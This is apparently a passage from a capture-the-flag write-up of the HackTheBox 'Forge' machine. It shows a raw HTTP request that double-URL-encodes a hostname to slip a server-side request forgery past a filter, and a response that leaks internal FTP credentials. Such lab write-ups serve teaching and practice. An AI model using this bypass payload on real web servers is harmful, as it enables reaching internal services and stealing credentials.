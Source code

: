 
The source code contains links to `/announcements` and `/upload`.

#### Retrieving `http://admin.forge.htb/announcements`

```http
POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://forge.htb
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2Fadmin%252Eforge%252Ehtb%2Fannouncements&remote=1
```

Follow the link.

```http
HTTP/1.1 200 OK
Date: Tue, 14 Sep 2021 17:56:52 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Disposition: inline; filename=DLY4xaAJ03XQJIyZos5P
Content-Length: 965
Last-Modified: Tue, 14 Sep 2021 17:56:47 GMT
Cache-Control: no-cache
Connection: close
Content-Type: image/jpg

<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```
